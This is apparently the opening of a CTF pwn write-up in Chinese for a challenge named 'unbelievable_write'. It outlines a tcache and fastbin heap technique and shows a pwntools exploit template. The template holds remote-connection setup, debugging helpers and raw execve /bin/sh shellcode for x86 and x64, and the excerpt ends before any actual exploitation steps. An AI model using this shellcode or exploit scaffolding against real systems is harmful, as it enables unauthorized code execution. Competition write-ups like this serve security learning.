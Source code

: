 # Pwn

## **unbelievable_write**

利用一次漏洞free，控制tcache_struct

利用fastbin reverse into tcache 写值，调用后门

```Apache
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
context.terminal=['tmux', 'splitw', '-h']
# prog = '../bin/pwn'
prog = '/home/ctf/pwn'
#elf = ELF(prog)#nc 121.36.194.21 49155
# p = process(prog)#,env={"LD_PRELOAD":"./libc-2.27.so"})
# libc = ELF("/lib/x86_64-linux-gnu/libc-2.31.so")
p = remote("119.23.255.127", 21377)#nc 124.71.130.185 49155
# p = remote("127.0.0.1", 9999)#nc 124.71.130.185 49155
def debug(addr,PIE=True): 
        debug_str = ""
        if PIE:
                text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16) 
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(text_base+i))
                gdb.attach(p,debug_str) 
        else:
                for i in addr:
                        debug_str+='b *{}\n'.format(hex(i))
                gdb.attach(p,debug_str) 

def dbg():
        gdb.attach(p)
#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send((data))        #in case that data is an int
sa      = lambda delim,data         :p.sendafter(str(delim), (data)) 
sl      = lambda data               :p.sendline((data)) 
sla     = lambda delim,data         :p.sendlineafter(str(delim), (data)) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
it      = lambda                    :p.interactive()
uu32    = lambda data   :u32(data.ljust(4, '\0'))
uu64    = lambda data   :u64(data.ljust(8, '\0'))
bp      = lambda bkp                :pdbg.bp(bkp)
li      = lambda str1,data1         :log.success(str1+'========>'+hex(data1))

        
def dbgc(addr):
        gdb.attach(p,"b*" + hex(addr) +"\n c")

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def choice(idx):
        sla("> ",str(idx))
```
